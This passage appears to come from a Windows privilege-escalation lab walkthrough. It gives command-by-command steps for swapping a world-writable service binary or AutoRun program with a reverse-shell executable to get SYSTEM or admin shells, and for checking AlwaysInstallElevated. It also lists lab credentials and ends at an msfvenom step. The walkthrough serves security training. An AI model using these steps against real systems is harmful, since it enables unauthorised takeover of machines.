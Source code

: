     net start regsvc

## Service exploits - Insecure service executables

Query the `filepermsvc` service and note that it runs with `SYSTEM` privileges (`SERVICE_START_NAME`).

    sc qc filepermsvc

Using `accesschk.exe`, note that the service binary (`BINARY_PATH_NAME`) file is writable by everyone:

    C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

Copy the `reverse.exe` executable you created and replace the `filepermservice.exe` with it:

    copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

Start a listener on Kali and then start the service to spawn a reverse shell running with `SYSTEM` privileges:

    net start filepermsvc

## Registry - AutoRuns

Query the registry for `AutoRun` executables:

    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Using `accesschk.exe`, note that one of the `AutoRun` executables is writable by everyone:

    C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

Copy the `reverse.exe` executable you created and overwrite the AutoRun executable with it:

    copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

Start a listener on Kali and then restart the Windows VM. Open up a new `RDP` session to trigger a reverse shell 
running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not 
fire, log in as an admin (`admin/password123`) to trigger it. Note that in a real world engagement, you would have 
to wait for an administrator to log in themselves!

    rdesktop MACHINE_IP

## Registry - AlwaysInstallElevated

Query the registry for `AlwaysInstallElevated` keys:

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Note that both keys are set to `1` (`0x1`).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
